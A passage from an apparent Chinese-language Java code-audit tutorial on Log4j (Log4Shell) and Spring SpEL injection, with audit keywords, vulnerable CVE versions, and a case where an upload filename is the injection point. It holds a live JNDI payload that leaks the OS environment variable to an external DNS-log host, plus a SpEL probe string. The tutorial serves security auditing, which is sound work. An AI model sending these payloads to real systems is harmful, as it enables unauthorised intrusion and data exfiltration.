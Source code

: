 ```

根据配置文件，可以确定审计的关键词为：logger.TRACE < DEBUG < INFO < WARN < ERROR < FATAL
```

payload：

```
${jndi:ldap://${env:OS}.61169aeb6f.ipv6.1433.eu.org}
```

案例：

所有的日志都将生效：

![](/dmsj_img/Pasted%20image%2020241211153441.png)

寻找可控点：

![](/dmsj_img/Pasted%20image%2020241211153559.png)

这里是一个获取上传文件名的地方，参数可控：

![](/dmsj_img/Pasted%20image%2020241211153808.png)

![](/dmsj_img/Pasted%20image%2020241211154252.png)
![](/dmsj_img/Pasted%20image%2020241211154345.png)

![](/dmsj_img/Pasted%20image%2020241211154747.png)

![](/dmsj_img/Pasted%20image%2020241211154801.png)
 ## 4、SpEL

SpEL表达式注入，这个漏洞其实在网站开发者中的自编码中并不常见，更多是在spring家族的一些组件里面，这个简单来说就是将用户的输入带入SpEL表达式中执行了：

单独代码审计关键词：

```
//关键类  
org.springframework.expression.Expression  
org.springframework.expression.ExpressionParser  
org.springframework.expression.spel.standard.SpelExpressionParser  
  
//调用特征  
ExpressionParser parser = new SpelExpressionParser();  
Expression expression = parser.parseExpression(str);  
expression.getValue()  
expression.setValue()

黑盒一般使用一些数字${3333-1}
```

一些著名的SpEL注入组件：

```
CVE-2016-4977 黑盒有概率遇到
Spring Security OAuth 2.3到2.3.2
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.0到2.0.14

CVE-2017-4971
Pivotal Spring_Web_Flow 2.4.0到2.4.4

CVE-2017-8046
Pivotal_Software Spring_Data_Rest < 2.6.9
VMware Spring_Boot 2.0.0
```